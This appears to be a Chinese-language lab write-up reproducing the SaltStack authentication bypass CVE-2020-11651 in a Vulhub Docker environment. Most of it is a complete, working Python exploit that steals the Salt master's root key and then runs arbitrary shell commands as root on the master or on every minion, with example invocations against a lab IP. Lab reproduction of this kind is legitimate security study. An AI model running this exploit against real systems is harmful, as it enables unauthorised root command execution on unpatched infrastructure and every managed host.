

# SaltStack 水平权限绕过漏洞 CVE-2020-11651

## 漏洞描述

SaltStack 是基于 Python 开发的一套C/S架构配置管理工具。国外某安全团队披露了 SaltStack 存在认证绕过漏洞（CVE-2020-11651）和目录遍历漏洞（CVE-2020-11652）。

在 CVE-2020-11651 认证绕过漏洞中，攻击者通过构造恶意请求，可以绕过 Salt Master 的验证逻辑，调用相关未授权函数功能，从而可以造成远程命令执行漏洞。

参考链接：

- https://labs.f-secure.com/advisories/saltstack-authorization-bypass
- https://github.com/rossengeorgiev/salt-security-backports
- https://github.com/saltstack/salt/blob/a67d76b15615983d467ed81371b38b4a17e4f3b7/tests/integration/master/test_clear_funcs.py

## 环境搭建

Vulhub执行如下命令启动一个SaltStack Master服务：

```
docker-compose up -d
```

环境启动后，将会在本地监听如下端口：

- 4505/4506 这是SaltStack Master与minions通信的端口
- 8000 这是Salt的API端口
- 2222 这是容器内部的SSH服务器监听的端口

## 漏洞复现

本文档复现CVE-2020-11651漏洞。

我们可以使用如下请求来执行`salt/master.py`中的`ClearFuncs:_prep_auth_info`方法：

```
{'cmd': '_prep_auth_info'}
```

利用这个方法，可以获得目标的所有用户的key，利用这个key即可通过超级管理员权限执行一些后台功能，比如下发任务等。

使用[这个POC](https://github.com/dozernz/cve-2020-11651)，首先获取Key，再在master中执行`touch /tmp/success`：

```python
#!/usr/bin/env python3

# POC for exploiting CVE-2020-11651. CVE-2020-11652 not included, but this one is the really powerful one and it should be easy enough to figure out how to get 11652 working if you need.
# Author: @dozernz
# Some code adapted from https://github.com/rossengeorgiev/salt-security-backports
#
# Pre-requsities: pip3 install salt


import os
import sys

import salt
import salt.version
import salt.transport.client
import salt.exceptions
import datetime


def ping_master():
    print("Attempting to ping master at "+master_ip)
    try:
        msg = {"cmd":"ping"}
        response = clear_channel.send(msg, timeout=3)
        if response:
            return True
    except salt.exceptions.SaltReqTimeoutError:
        return False

    return False


def get_rootkey():
    try:
        response = clear_channel.send({'cmd':'_prep_auth_info'}, timeout=2)
        for i in response:
            if isinstance(i,dict) and len(i) == 1:
                rootkey = list(i.values())[0]
                print("Retrieved root key: " + rootkey)
                return rootkey

        return False
        
    except:
        return False


def send_command_to_minions(command):
    print("Sending command to all minions on master")
    jid = "{0:%Y%m%d%H%M%S%f}".format(datetime.datetime.utcnow())
    cmd = "/bin/sh -c '{0}'".format(command)

    msg = {'cmd':"_send_pub","fun":"cmd.run","arg":[cmd],"tgt":"*","ret":"","tgt_type":"glob","user":"root","jid":jid}

    try:
        response = clear_channel.send(msg,timeout=3)
        if response == None:
            return True
        else:
            return False
    except:
        return False


def master_shell(root_key,command):
    # This is achieved by using the stolen key to create a "runner" on the master node using the cmdmod module, then the cmd.exec_code function to run some python3 code that shells out.
    # There is a cmd.shell function but I wasn't able to get it to accept the "cmd" kwarg parameter for some reason.
    # It's also possible to use CVE-2020-11652 to get shell if the master instance is running as root by writing a crontab into a cron directory, or proably some other ways.
    # This way is nicer though, and doesn't need the master to be running as root .


    msg = {"key":root_key,
            "cmd":"runner",
            'fun': 'salt.cmd',
            "kwarg":{
                "fun":"cmd.exec_code",
                "lang":"python3",
                "code":"import subprocess;subprocess.call('{}',shell=True)".format(command)
                },
            'jid': '20200504042611133934',
            'user': 'sudo_user',
            '_stamp': '2020-05-04T04:26:13.609688'}

    try:
        response = clear_channel.send(msg,timeout=3)
        print("Got response for attempting master shell: "+str(response)+ ". Looks promising!")
        return True
    except:
        print("something failed")
        return False


if __name__=="__main__":
    if len(sys.argv) <= 2:
        print("Not enough args")
        print("Use like python3 cve-2020-11651.py <targetip> <master/minions/fetchkeyonly> <command>")
        sys.exit(1)
    
    
    target = sys.argv[1]
    master_minion_root = sys.argv[2]


    master_ip = target
    master_port = '4506'

    minion_config = {

    'transport': 'zeromq',
    'pki_dir': '/tmp',
    'id': 'root',
    'log_level': 'debug',
    'master_ip': master_ip,
    'master_port': master_port,
    'auth_timeout': 5,
    'auth_tries': 1,
    'master_uri': 'tcp://{0}:{1}'.format(master_ip, master_port)
    }

    clear_channel = salt.transport.client.ReqChannel.factory(minion_config, crypt='clear')

    if not ping_master():
        print("Failed to ping the specified master server, exiting")
        sys.exit(1)


    if master_minion_root == "master" or master_minion_root == "minions":
        command = sys.argv[3]
        rootkey = get_rootkey()
        if not rootkey:
            print("Failed to fetch the root key from the instance. This MAY indicate that it is patched")
            sys.exit(1)
        else:
            if master_minion_root == "master":
                master_shell(rootkey,command)
            else:
                send_command_to_minions(command)

    elif master_minion_root == "fetchkeyonly":
        get_rootkey()

    else:
        print("Invalid usage")
```

获取key：

```
python CVE-2020-11651.py 192.168.174.128 fetchkeyonly
```



执行命令`touch /tmp/awesome_poc`：

```
python CVE-2020-11651.py 192.168.174.128 master "touch /tmp/awesome_poc"
```


成功执行命令`touch /tmp/awesome_poc`：

